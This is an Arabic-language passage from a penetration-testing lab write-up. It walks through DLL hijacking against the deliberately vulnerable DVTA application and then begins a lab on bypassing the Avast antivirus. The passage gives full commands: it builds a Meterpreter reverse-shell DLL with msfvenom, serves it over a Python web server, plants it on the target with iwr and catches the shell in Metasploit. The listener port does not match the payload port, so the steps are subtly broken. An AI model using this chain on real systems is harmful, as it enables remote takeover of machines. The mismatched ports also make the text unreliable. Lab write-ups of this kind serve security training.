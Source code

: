 لو نشوف البروسس الي قبل الاخيره الي مسارها C:\Users\Administrator\Desktop\dvta\bin\Release\Dwrite.dll  
طبعا الان عرفنا ايش الـ DLL المفقود  

خلونا الان نستغل  
نروح للينكس وناخذ الايبي تبعنا بالامر ifconfig eth1  

الان خلونا نسوي dll ونحقن فيها الشيل تبعنا  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.2 LPORT=9001 -f dll > Dwrite.dll  
```  

حلو الان صارت معنا خلونا ننقل الـ dll الى جهاز التارقت  
اول شي نفتح بايثون سيرفر  
```bash
python3 -m http.server 80  
or  
python -m SimpleHTTPServer 80  
```  
حلو الان خلونا نفتح الليسنر عشان اول ماننقل الـ DLL ويشتغل علطول راح يجينا الشيل  
```bash
msfconsole -q  
use exploit/multi/handler  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST 10.10.15.2  
set LPORT 4444  
exploit  
```  
الان فتحنا الليسنر  

خلونا الان ننقل الـ dll  
```bash
iwr -UseBasicParsing -Uri http://10.10.15.2/Dwrite.dll -OutFile C:\Users\Administrator\Desktop\dvta\bin\Release\Dwrite.dll  
```  
الان خلونا نفتح الـ DVTA.exe  
والان راح يستدعي الـ DLL وراح يحصل حقتنا  
والان راح يشغلها فورا اول مايفتح البرنامج  
ونرجع للـ msfconsole  
ونشوف انه اخذنا meterpreter shell  

الى هنا انتهى اللاب خلونا نشوف الي بعده  

---  

Bypassing AV
-------------|

في هذا اللاب راح نشوف طريقة من احد طرق تخطي antiviruses معروف جدا اسمه Avast  

طيب اول شي خلونا نشوف هل فيه اتصال بيننا وبين التارقت  
```bash
ping -c3 172.16.5.10  
```  
ونشوف انه فعلا فيه اتصال بيننا جميل جدا  

خلونا نفحص الان  
```bash
nmap 172.16.5.10  
```  
نشوف انه فيه بورت 3389 والي هو الـ RDP شغال  
وفي اللاب معطينا اليوزر والباسورد  
